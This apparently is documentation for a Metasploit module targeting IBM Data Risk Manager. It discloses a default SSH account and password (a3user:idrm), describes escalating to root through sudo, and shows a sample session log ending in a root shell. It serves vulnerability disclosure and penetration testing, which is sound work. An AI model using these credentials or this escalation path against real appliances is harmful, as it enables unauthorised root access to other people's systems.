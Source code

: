 ## Vulnerable Application
This module abuses a known default password on IBM Data Risk Manager. The 'a3user' has the default password 'idrm', and allows an attacker to login to the virtual appliance via SSH. 
This can be escalated to a full root access, as 'a3user' has sudo access with the default password.
At the time of disclosure, this is a 0 day. Versions <= 2.0.3 are confirmed to be affected, and the latest 2.0.6 is most likely affected too.

**Vulnerable Application Installation Steps**

The application is available to download as Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set RHOSTS!
A successful exploit will look like this:

```
msf5 exploit(linux/ssh/ibm_drm_a3user) > run

[*] 10.22.22.212:22 - Attempting to login to the IBM Data Risk Manager appliance...
[+] 10.22.22.212:22 - Login Successful (a3user:idrm)
[*] Found shell.
[*] Command shell session 5 opened (10.22.22.1:45489 -> 10.22.22.212:22) at 2020-04-22 12:10:13 +0700
[*] 10.22.22.212:22 - Escalating privileges to root, please wait a few seconds...
[+] 10.22.22.212:22 - Done, enjoy your root shell!

uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```

## Vulnerability information
For more information about the vulnerability check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md
